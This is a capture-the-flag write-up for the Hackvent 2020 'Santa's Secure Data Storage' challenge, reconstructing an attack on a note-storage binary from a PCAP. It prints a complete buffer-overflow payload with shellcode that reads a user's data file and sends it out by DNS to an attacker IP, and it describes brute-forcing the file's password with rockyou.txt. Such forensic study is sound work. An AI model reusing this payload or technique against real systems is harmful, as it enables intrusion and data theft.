

# HV20.24 Santa's Secure Data Storage

For the final challenge, we get access to a binary (`data_storage`, 64 bit ELF file) and a PCAP file which shows some network traffic. Our goal is to analyze the provided files and find out if / how the application has been compromised. Moreover, we know that all users of the application use passwords from the infamous wordlist `rockyou.txt`.

Firstly, I started playing with the ELF file. The application can be used to store encrypted notes. Authentication is done using username and password. If the user does not exist during the authentication, it is created automatically. All files (user data and encrypted notes) are stored inside the `/data` folder. The filenames have the following pattern:

- `data/<user>_pwd.txt` - Hashed password for the user
- `data/<user>_data.txt` - Encrypted note

Moreover, we can see that there is a huge buffer overflow vulnerability in the provided application. After authentication, the user can enter a number from `0` to `3` to choose an action:

```bash
➜  24 git:(main) ✗ ./data_storage
welcome to santa's secure data storage!
please login with existing credentials or enter new username ...
username> manuelz120
creating user 'manuelz120' ...
please set your password (max-length: 19)
password> hackvent_rulez
welcome manuelz120!
[0] show data
[1] enter data
[2] delete data
[3] quit
choice> 3
good bye!
```

However, when reading the input the application takes 1000 byte from _stdin_ and passes them to a buffer with a size of just 10 byte. This vulnerability can most likely be exploited to achieve remote code execution and leak data from other users.



Afterwards, I started taking a look at the communication from the [PCAP file](./attack.pcapng). By analyzing the TCP packets, we can see how user `evil0r` (password `lovebug1`) interacted with the application. On a first glance, there does not seem to be anything suspicious, as he does not interact with the notes and immediately quits after connecting. However, if we take a closer look at the quit command, we can see that it contains way more data than just the command (`3`):

```
00000000: 3320 4141 4141 4141 4141 4141 4141 4141  3 AAAAAAAAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000020: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000030: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000040: 4141 1041 4000 0000 0000 6874 7874 0048  AA.A@.....htxt.H
00000050: c2bf 7461 5f64 6174 612e 5748 c2bf 6461  ..ta_data.WH..da
00000060: 7461 2f73 616e 5748 c289 c3a7 4831 c3b6  ta/sanWH....H1..
00000070: 4831 c392 c2b8 0200 0000 0f05 48c2 89c3  H1..........H...
00000080: 8748 c2ba 0000 0100 0100 0000 526a 006a  .H..........Rj.j
00000090: 006a 006a 0048 c289 c3a6 48c2 ba01 0000  .j.j.H....H.....
000000a0: 0000 0000 2052 48c2 ba00 0000 1337 0100  .... RH......7..
000000b0: 0052 c2ba 2000 0000 c2b8 0000 0000 0f05  .R.. ...........
000000c0: 4831 c389 c281 340e c3af c2be c2ad c39e  H1....4.........
000000d0: 48c2 83c3 8104 48c2 83c3 b920 75c3 afc2  H.....H.... u...
000000e0: bf02 0000 00c2 be02 0000 0048 31c3 92c2  ...........H1...
000000f0: b829 0000 000f 0548 c289 c387 48c2 89c3  .).....H....H...
00000100: a648 c283 c386 03c2 ba32 0000 0041 c2ba  .H.......2...A..
00000110: 0000 0000 6a00 49c2 b802 0000 35c3 80c2  ....j.I.....5...
00000120: a800 2a41 5049 c289 c3a0 41c2 b910 0000  ..*API....A.....
00000130: 00c2 b82c 0000 000f 05c2 bf00 0000 00c2  ...,............
00000140: b83c 0000 000f 050a                      .<......
```

If we take a closer look at the part which follows the sequence of `A`s, we can see that it contains some shell code, so this whole request is exploiting the buffer overflow vulnerability we discussed before. After disassembling the shellcode, we can see that the exploit reads the data file of the user santa (`data/santa_data.txt`), encrypts it by xoring the content with `0xdeadbeef` and sends it to `192.168.0.42` (`evil0r`s IP) via a handcrafted DNS request. Thankfully, we also have the data from this DNS request, as it's still shown in the PCAP:

Bytes from DNS request: `0xe5, 0xaf, 0xe5, 0x9d, 0x31, 0xac, 0xa3, 0xca, 0x21, 0x1e, 0xc3, 0x79, 0xa6, 0x73, 0x23, 0x5e, 0xda, 0xb6, 0xa0, 0x8d, 0x2e, 0xd3, 0xb7, 0xb6, 0x6b, 0x55, 0x85, 0x7e, 0xc8, 0x34, 0x22, 0x7a`

Now we can undo the XOR encryption by xoring these bytes with `0xdeadbeef` (keep in mind the reversed byte order) and obtain the encrypted data file for the user santa:

```bash
➜  24 git:(main) ✗ xxd data/santa_data.txt
00000000: 0a11 4843 de12 0e14 cea0 6ea7 49cd 8e80  ..HC......n.I...
00000010: 3508 0d53 c16d 1a68 84eb 28a0 278a 8fa4  5..S.m.h..(.'...
```

Now, we can simply store this data on our local machine and try to decrypt it using all passwords from `rockyou.txt`. I wrote a small [wrapper-script](./brute-force-decrypt.py) using [pwntools](https://github.com/arthaud/python3-pwntools) to automate this task. After ~ 1 hour it finally managed to decrypt the leaked file (password was: `xmasrocks`).

**Flag:** HV20{0h_n0es_fl4g_g0t_l34k3d!1}
